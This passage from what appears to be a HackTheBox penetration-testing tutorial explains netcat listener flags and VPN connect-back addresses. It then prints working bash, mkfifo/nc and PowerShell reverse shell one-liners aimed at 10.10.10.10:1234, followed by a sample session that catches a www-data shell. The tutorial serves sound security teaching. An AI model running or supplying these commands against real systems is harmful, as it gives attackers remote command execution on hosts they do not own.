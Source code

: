 The flags we are using are the following:

| Flag      | Description                                                                         |
| --------- | ----------------------------------------------------------------------------------- |
| `-l`      | Listen mode, to wait for a connection to connect to us.                             |
| `-v`      | Verbose mode, so that we know when we receive a connection.                         |
| `-n`      | Disable DNS resolution and only connect from/to IPs, to speed up the connection.    |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |

### **Connect Back IP**

Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using `eth0`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.

### **Reverse Shell Command**

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

&#x20;Once we do, we should receive a connection in our `netcat` listener:

```shell-session
TomasFerreira@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
